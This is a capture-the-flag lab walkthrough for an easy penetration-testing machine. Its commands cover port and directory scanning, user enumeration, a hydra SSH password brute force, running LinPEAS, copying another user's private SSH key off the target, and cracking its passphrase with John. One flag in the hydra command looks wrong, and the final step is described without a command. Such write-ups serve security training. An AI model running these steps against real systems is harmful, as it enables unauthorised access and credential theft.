








# 💻 Basic Pentesting Challenge
**Difficulty:** Easy

## 📝 Challenge Overview
In this challenge, we have to use our web penetration and privilege escalation skills in order to gain as much information as we can about the server.
---

## 🔍 Step 1: Port && Directory Scanning
We start by scanning the target machine for open ports using `nmap`:

```bash
sudo nmap <IP_ADDR> 
```


```bash
gobuster dir -u http://<IP_ADDR> -w /usr/share/wordlist/rockyou.txt 
```



✅ Findings:

Ports: 22, 80, 139, 445, 8009, 8080
Directories: development

## 🔍 Step 2: Search for users 
We start by scanning usign enum4linux to find users on the machine:

```bash
enum4linux -a  <IP_ADDR> 
```


✅ Findings:
Unix User kay 
Unix User jan

## 🔍 Step 3: Brute-forcing the password
Using hydra, we can brute-force the password of the jan user:

```bash
hydra -l jan -w /usr/share/wordlist/rockyou.txt ssh://<IP_ADDR>
```


✅ Findings:
login: jan	password: armando

## 🔍 Step 4: Privilege escalation using LinPEAS
LinPeas or Linux Privilege Escalation Awesome Script follow the steps:

Install the LinPeas on the machine
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
```

Copy the script on the target machine
```bash
scp linpeas.sh jan@<IP_ADDR>:/tmp/
```

Run on the target from /tmp/
```bash
./linpeas.sh
```


✅ Findings:
/home/kay/.ssh/id_rsa with read option for any user

So now we will try to login as kay using his private key
Copy his private key on our machine
```bash
scp jan@<IP_ADDR>:/home/kay/.ssh/id_rsa .
chmod 600 id_rsa
ssh -i id_rsa kay@<IP_ADDR>
```

But we find that there is a pass phrase for the key. We can use John to break this passphrase and get into the kay's accout by doing the following:



```bash
/opt/john/ssh2john.py id_rsa > key_rsa.txt
john key_rsa.txt --wordlist=/usr/share/wordlists/rockyou.txt
``` 



So here we are logged as kay. Now we have just to cat the pass file and retrieve the flag:



## Conclusion
This is a great basic penetration challenge to gain skills in privilege escalation and brute-forcing. 
